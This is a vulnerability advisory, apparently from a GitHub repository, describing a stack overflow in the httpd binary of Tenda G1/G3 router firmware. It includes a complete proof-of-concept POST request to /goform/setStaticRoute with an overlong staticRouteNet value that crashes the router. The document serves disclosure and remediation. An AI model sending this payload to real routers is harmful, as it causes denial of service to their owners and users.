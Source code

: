 # Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Stack Overflow

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formSetStaticRoute` function, `staticRouteNet、staticRouteMask、staticRouteGateway` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `staticRouteNet、staticRouteMask、staticRouteGateway` to crash the server.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked. The parameter `staticRouteNet、staticRouteMask、staticRouteGateway` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 



## PoC

We set `staticRouteNet` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /goform/setStaticRoute HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 515
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/network/routeTable.html?0.41341517563645214
Cookie: _:USERNAME:_=; G3v3_user=

staticRouteIndex=0&staticRouteNet=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&staticRouteMask=255.255.255.0&staticRouteGateway=192.168.2.1&staticRouteWAN=wan1
```



## Result

The target router crashes and cannot provide services correctly and persistently.
